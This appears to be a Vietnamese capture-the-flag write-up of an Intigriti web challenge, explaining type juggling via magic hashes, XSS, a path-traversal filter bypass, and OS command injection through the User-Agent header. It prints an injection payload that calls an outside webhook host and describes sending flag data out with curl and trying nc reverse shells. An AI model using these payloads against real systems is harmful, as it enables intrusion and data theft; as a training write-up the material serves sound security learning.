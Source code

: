# [Intigriti] Challenge-0423
<p>Đầu tiên, tại /challenge.php nhận về một giao diện trang login. Đề bài đã cho sẵn username=strange và password=monkey để login. Sau khi login, server trả về 2 cookie là username và account_type rồi chuyển hướng về /dashboard.php.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image.png)

<p>Thay đổi cookie username và account_type bằng cách giá trị khác nhau nhưng không có dấu hiệu gì đặc biệt ở response.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-1.png)

<p>Kiểm tra các thư mục có listing hay không? Kết quả là không được phép truy cập và qua việc này thì phát hiện ra được thông tin web server là nginx/1.24.0. Bây giờ, có 2 hướng để đi tiếp là thử các payload SQL injection ở chức năng login hoặc là tìm các lỗi nằm trên nginx/1.24.0. Tạm thời ưu tiên test chức năng login trước.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-2.png)

<p>Sử dụng kí tự ' thì server trả về response yêu cầu điều hướng tới /index_error.php?error=invalid username or password.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-3.png)

<p>Sau đó, nhận được response có một dòng comment "Nhớ sử dụng strict comparison" -> Có vẻ như đây là gợi ý trang web bị lỗi type juggling. Các vị trí có khả năng bị type juggling có thể xảy ra là login, cookie. Điều đáng chú ý là giá trị của tham số error có vẻ như được render trực tiếp ra HTML response -> Có khả năng bị XSS.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-4.png)

<p>Thử &lth1&gta thì xác định HTML injection thành công.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-5.png)

<p>Thử &ltscript&gtalert(origin)&lt/script&gt thì xác định đúng trang web này đã bị XSS.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-6.png)

<p>Quay về trang login, mình có thắc mắc là server có nhận dữ liệu dưới dạng nào khác ngoài form không ? (ví dụ như là json, xml,...). Sau khi đổi định dạng là json và gửi đi thì phát hiện ra có vẻ như trang này chưa tắt cấu hình display_errors dẫn đến hiển thị waring ở phía client. Dựa vào warning thì xác định được 2 điều: không nhận dữ liệu json khi login và đường dẫn tới trang login là /app/login.php. Vì không nhận dữ liệu json nên giả thuyết sử dụng "psw": true là coi như loại -> Khả năng bị type juggling còn lại là nằm trong cookie.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-7.png)

<p>Giá trị của cookie account_type khá đặc biệt, là một chuỗi không rõ có ý nghĩa gì và khi thay đổi thì response cũng không có dấu hiệu gì đặc biệt. Dựa vào tên "account_type" thì mình đoán có thể giá trị là một mã để phân biệt các loại tài khoản (VIP, Normal,...). Có thể là các giá trị sẽ được hash, encrypt,... để so sánh với giá trị nào đó ở phía server. Liên quan đến hash thì trong type juggling có các chuỗi được gọi là magic hash. Ý tưởng bây giờ là thử các hash phổ biến như MD5, SHA1,.. Tìm chuỗi sau khi hash MD5 có dạng 0e... -> Chọn "etqaTTFXeujI" và response trả về có một element khá đặc biệt. Dựa vào tiêu đề &lt;h3 id=&quot;custom_image.php - try to catch the flag.txt ;)&quot;&gt;A special golden wall just for Premium Users ;) &lt;/h3&gt; có thể đoán rằng truy cập đến /custom_image.php để tìm flag.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-8.png)

<p>Tại /custom_image.php, browser render ra một image là một bức tường màu vàng. Dựa vào tên file thì khả năng cao là endpoint này xử lý gì đó rồi mới trả về nội dung tấm ảnh chứ sử dụng file .php chỉ trả về nội dung ảnh thì không hợp lí cho lắm. Tại vì, hầu hết những ảnh trên trang web này đều được lưu tập trung trong các thư mục cụ thể như là resources hoặc images. Bây giờ, có 2 hướng để tiếp tục là fuzz các parameter tại /custom_image.php hoặc là đi tìm bí mật nào đó được giấu trong ảnh này</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-9.png)

<p>Sử dụng một số tools: exiftool, steghide,... thì kết quả cũng không có gì đáng chú ý -> Hướng này có vẻ fail</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-10.png)

<p>Quay lại hướng thứ nhất, sử dụng ffuf để fuzz parameter. Vì trong lần fuzz đầu tiên có khá nhiều kết quả có cùng kích thước nên tạm thời filter các response có cùng size -> Kết quả tìm được một parameter là file.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-11.png)

<p>Chưa rõ là tham số file này yêu cầu giá trị là gì. Có thể là đường dẫn tương đối hoặc tuyệt đối. Tuy nhiên, vì đã biết là trang này sẽ hiển thị các warning và error nên mình sẽ cố gắng thử các trường hợp gây ra error/warning để leak thêm thông tin. Thử truyền tham số với kiểu array thì gây ra lỗi thành công. Dựa vào stack trace: lỗi bắt đầu từ dòng code thứ 12 khi sử dụng strpos(Array, "../") -> mình đoán tham số đầu tiên của hàm strpos là biến nhận giá trị của tham số file vì tôi đã truyền vào một mảng nên bị lỗi là đúng và tham số thứ hai là "../" -> Có vẻ như dòng code này dùng để kiểm tra chuỗi "../" gây path traversal trong giá trị của tham số file.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-12.png)

<p>Sử dụng một đường dẫn tuyệt đối có sẵn trên web để test. Kết quả là hiển thị một thông báo lỗi leak ra file_get_content và đọc nội dung từ đường dẫn lấy từ tham số file.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-13.png)

<p>Thử thêm chuỗi "../" thì bị replace đi -> Có vẻ như strpos ở dòng 12 sẽ tìm chuỗi "../" và sau đó thực hiện replace rồi mới đưa vào hàm file_get_content. Chưa rõ là việc replace này có lặp lại nhiều lần hay không nên cần phải test thêm.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-14.png)

<p>Chèn thêm các chuỗi "../" vào giữa thì tất cả đều đã bị replace -> Hướng sử dụng "../" có vẻ fail. Tuy nhiên, nếu server sử dụng hệ điều hành Windows thì vẫn còn một cách khác. Đó là sử dụng kí tự \ thay vì /.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-15.png)

<p>Vậy là thành công bypass việc kiểm tra "../" bằng cách sử dụng "..\"</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-16.png)

<p>Tuy nhiên, sử dụng bao nhiêu "..\" cũng không tìm thấy flag.txt -> Có vẻ như thư mục www nằm trong thư mục chứa mã nguồn của trang web chứ không phải nằm trong thư mục gốc</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-17.png)

<p>Thay thế bằng www/web/images/ và thử lại -> Thành công</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-18.png)

<p>Chuyển đổi kiểu dữ liệu thành text/plain để xem nội dung gốc. Có vẻ nội dung gợi ý truy cập đến /e7f717ed-d429-4d00-861d-4137d1ef29az/9709e993-be43-4157-879b-78b647f15ff7/admin.php.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-19.png)

<p>Tương tự, ra được nội dung admin.php. Có một dòng code sử dung shell_exec nhận giá trị từ trường User-Agent trên HTTP Header -> Khả năng bị OS Command injection. Nhìn chung thì việc sử dụng blacklist và sau đó replace trong trường này vẫn bypass được. Thứ nhất, blacklist vẫn thiếu  các kí tự như: ` $ ( ) . Thứ hai, việc replace các chuỗi khớp với phần trong blacklist thì hợp lí với các ký tự lẻ còn với từ 2 kí tự khác nhau trở lên thì hoàn toàn có thể chèn thêm chuỗi ở giữa để bypass.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-20.png)

<p>Đầu tiên, sử dụng payload: `cucurlrl${IFS}https://webhook.site/7d182ba8-11b7-405f-bcdd-ad2ad82e6254` để xem thực sự có tồn tại lệnh curl và server có được phép kết nối ra ngoài internet hay không. Có request gửi tới webhook -> Curl thành công. Tiếp theo, để leak data ra ngoài bằng lệnh curl thì có thể truyền qua tham số hoặc dùng data-binary . Tuy nhiên, cách sử dụng data-binary có vẻ không khả thi.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-21.png)

<p>Ban đầu, khi sử dụng cat để đọc nội dung flag.txt thì nội dung trả về là rỗng. Có vẻ như tên file chứa flag không phải là flag.txt nên thay vào đó mình sử dụng kí tự để đọc file .txt. -> Lấy được flag thành công. Tuy nhiên, vẫn chưa RCE được hoàn toàn nên tiếp tục sử dụng các command như: nc, ncat, netcat để lấy shell.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-22.png)

<p>Thử lệnh nc thì response trả về khá lâu và cuối cùng bị timeout. Khi sử dụng ncat và netcat thì response trả về rất nhanh. Tuy nhiên, không có shell nào được gửi đến -> Có vẻ như 2 lệnh không tồn tại trên server hoặc lí do nào đó. Bật vpn, thay đổi IP và gửi lại request thì cũng không có dấu hiệu gì khả quan -> Có lẽ vấn đề không nằm ở IP. Có thể là do kết nối bị chặn hoặc lí do nào đó không rõ -> Có vẻ fail</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-23.png)

<p>Tóm lại, đây là toàn bộ nội dung về challenge. Hy vọng writeup này giúp ích cho bạn 🔥.</p>
